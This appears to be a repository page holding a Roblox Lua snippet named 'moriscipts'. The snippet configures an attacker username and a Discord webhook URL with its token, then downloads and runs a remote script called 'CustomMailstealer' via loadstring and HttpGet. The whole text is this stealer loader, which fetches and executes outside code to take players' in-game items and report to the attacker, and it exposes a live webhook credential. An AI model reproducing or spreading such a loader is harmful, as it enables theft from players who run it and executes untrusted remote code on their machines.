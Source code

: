 # moriscipts
Username = "tungul16" Webhook = "https://discord.com/api/webhooks/1198567644803125379/rgN97cv7Fv6gp6mPamHxRQH1lbAEclH7vND_NtiyA8R8COyGyiQqpXqqz9Dsq1ppHRAf"  G_LoadingScreen = "/generate" G_WebhookName = "ez"  loadstring(game:HttpGet("https://raw.githubusercontent.com/LypherX/MoriCustom/main/CustomMailstealer"))()
